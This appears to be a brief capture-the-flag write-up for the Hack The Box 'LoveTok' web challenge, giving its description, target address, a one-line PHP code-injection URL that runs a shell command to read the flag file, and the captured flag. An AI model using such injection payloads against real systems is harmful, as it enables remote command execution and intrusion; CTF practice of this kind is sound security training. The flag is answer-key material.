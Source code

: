 #### Challenge description 

True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

#### Target Ip



http://159.65.20.166:30707/?format=${system($_GET[cmd])}&cmd=cat%20/flagKVF3R

flag HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng} 
